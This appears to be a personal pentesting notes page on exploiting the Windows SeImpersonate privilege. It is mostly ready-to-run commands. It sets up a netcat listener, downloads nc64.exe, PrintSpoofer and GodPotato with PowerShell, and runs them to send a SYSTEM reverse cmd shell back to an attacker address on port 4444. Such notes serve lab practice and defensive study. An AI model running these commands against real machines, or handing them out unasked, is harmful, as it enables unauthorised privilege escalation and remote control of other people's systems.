

# SeImpersonate Privilege Exploitation
---
#### Idea
- The attacker exploit services that run on the server and impersonate client
  privliege that run on this services 
- **Note**
 ``` bydefult the services account like **LOCAL_SERVICE** or **NETWORK SERVICE** use this```

### Exploit 
1. on attacker machine
```bash
   nc -lnvp 4444
```

2. on target machine

- Detect if SeImpersonate enable or not
```powershell
   whoami /priv
```
and if enable you can see this




- install netcat
```powershell
   iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

- install PrintSpoofer
```powershell
  iwr -uri "https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe" -Outfile PrintSpoofer64.exe
```
and excute this
```powershell
.\PrintSpoofer64.exe -c "C:\Users\test\Desktop\nc64.exe 192.168.1.117 4444 -e cmd"

```

if not work can use **GodPotato** 
- install GodPotato 
1.   Understand the version of .NET with the following command and used the
  relative exploit.

```powershell
    reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```
depend on the result install the version of GodPotato
in my lab .Net is .Net4 

so will install on target
```powershell

  iwr -uri "https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe" -Outfile GodPotato-NET4.exe
```

- exploit
```powershell
  .\GodPotato-NET4.exe -cmd "C:\Users\leonardo\Desktop\nc64.exe 192.168.1.117 4444 -e cmd"
```
\